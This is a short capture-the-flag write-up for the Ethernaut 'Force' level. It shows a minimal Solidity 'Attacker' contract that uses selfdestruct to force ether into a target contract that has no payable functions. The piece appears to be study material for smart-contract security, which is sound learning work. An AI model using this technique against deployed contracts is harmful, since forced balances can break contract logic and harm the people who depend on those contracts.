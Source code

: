 # [7. Force](https://ethernaut.openzeppelin.com/level/0x22699e6AdD7159C3C385bf4d7e1C647ddB3a99ea)

This contract is supposedly not accepting any payments. Well, it is possible to force money into a contract by `selfdestruct`'ing a contract with some balance, with the target contract address as the parameter. We deploy the contract below with some small amount of ether, and then call the `pwn` function to let it `selfdestruct` and transfer all of its balance to the target contract.

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Attacker {
  function pwn(address _target) payable public {
    selfdestruct(payable(_target));
  }
}
```

